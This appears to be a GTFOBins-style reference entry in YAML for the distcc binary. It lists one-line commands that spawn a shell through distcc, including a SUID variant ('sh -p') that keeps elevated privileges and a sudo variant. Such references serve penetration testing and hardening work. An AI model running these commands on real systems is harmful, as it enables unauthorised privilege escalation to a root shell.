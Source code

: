 ```yaml
---
functions:
  shell:
    - code: distcc /bin/sh
  suid:
    - code: ./distcc /bin/sh -p
  sudo:
    - code: sudo distcc /bin/sh
---
```

